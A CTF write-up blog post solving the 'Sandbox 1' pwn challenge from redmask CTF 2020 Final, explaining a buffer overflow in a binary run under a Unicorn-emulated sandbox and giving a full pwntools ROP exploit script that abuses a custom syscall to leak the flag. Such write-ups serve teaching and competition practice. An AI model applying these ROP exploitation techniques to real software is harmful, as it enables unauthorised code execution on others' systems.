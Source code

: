 ```yaml
---
layout: post
title:  "Sandbox 1 | redmask CTF 2020 Final"
date:   2020-12-14
categories: ctf
description: Sandbox 1 | redmask CTF 2020 Final
tags: ctf-writeup
---
```


<img src="/images/redmaskctf2020final/banner.jpeg"/>

today 13 december 2020, my team is qualified for the final of redmask ctf 2020, I solve some rev and pwn challenge.
in this post I will cover Sandbox 1 Challenge from redmask CTF 2020 final. it's really cool challenge, i love it so much
thanks to kyraa for this cool challenge.

## Info files

we were given 2 elf file, `user`, `sandbox` it's 64bit linux elf, and there's bof bug on the `user` binary, and we can also controll `%rax`, `%rdi`, `%rsi`, `%rdx` via 
`helper` function

<img src="/images/redmaskctf2020final/helper.png"/>

the sandbox binary is also intresting, it's look like a rust binary with unicorn emulation.
the `main` function is only call 2 function first is the `setup` function (just a normal binary ctf setup) and the `run` function 
this is the `run` function

<img src="/images/redmaskctf2020final/run.png"/>

in this challenge we will focus on `handle_syscall` function. here is the `handle_syscall` function

<img src="/images/redmaskctf2020final/handle_syscall.png"/>

as you can see, there is a dummy flag, our goal is to print that flag on the server, after an hours debugging the sandbox, I found that we can easily print out the flag 
by using `uc_mem_write`, according to the docs 

<img src="/images/redmaskctf2020final/docs.png"/>

this function is used to copy data from the sandbox to the running `binary`, and on this section from `handle_syscall` function

{% highlight C %}
  if ( value != 1337 )
    goto LABEL_15;
  uc_reg_read(uc, 39, fd);
  uc_reg_read(uc, 43, &address);
  result = uc_reg_read(uc, 40, &nbytes);
  if ( *(_QWORD *)fd == 4919LL && nbytes )
    result = uc_mem_write(uc, address, "redmask{ini_bukan_real_flag_seriusan_asli_bgt}", 0x2FuLL);
  return result;

{% endhighlight %}

this function is used to copy the flag to the running process `user` binary. and as you can see here, it's copied the flag

<img src="/images/redmaskctf2020final/debug1.png"/>

and after doing dynamic analysis, I found that we can control the destination address via `%rsi` register

<img src="/images/redmaskctf2020final/debug2.png"/>

now we can just print the flag without setting up the `%rsi` register, so the flag will be send to a memory region on `user` binary, then we use
`write` syscall to print our flag, this is my exploit to solve this challenge

{% highlight python %}

#!/usr/bin/env python2
'''
    author : tripoloski 
    visit  : https://tripoloski1337.github.io/
    mail   : arsalan.dp@gmail.com
'''
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="debug",
               terminal=["tmux", "split-window", "-v", "-p 85"],)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("/home/tripoloski/code/ctf/redmaskctf-final/pwn/sandbox1/user")
elf = ELF(TARGET)

def attach(r):
    if LOCAL:
        bkps = ["* 0x402175","* 0x00000000004020ed"]
        gdb.attach(r, '\n'.join(["break %s"%(x,) for x in bkps]))
    return
# https://docs.rs/unicorn/0.9.1/unicorn/fn.uc_mem_write.html
def exploit(r):
    r = process(["./sandbox", "./user"])
    attach(r)
    syscall = 0x0000000000401016
    pop_rdi = 0x0000000000401004
    pop_rdx = 0x0000000000401008
    pop_rsi = 0x0000000000401006
    pop_rax = 0x000000000040100a



    p = "A" * 40
    p += p64(pop_rax)
    p += p64(1337)
    p += p64(pop_rdi)
    p += p64(0x1337)
    # p += p64(pop_rsi)
    # p += p64(0xdeadbeef)
    p += p64(pop_rdx)
    p += p64(0x1337)
    p += p64(syscall)

    p += p64(pop_rax)
    p += p64(1)
    p += p64(pop_rdi)
    p += p64(1)
    p += p64(pop_rdx)
    p += p64(0x1000)
    p += p64(syscall)
    

    r.sendline(p)
    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("103.55.38.18", 20001)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)



{% endhighlight %}

<img src="/images/redmaskctf2020final/done.png"/>

FLAG: redmask{ez_pz__lem0n_squeezY_fix3fix3fix3fix7}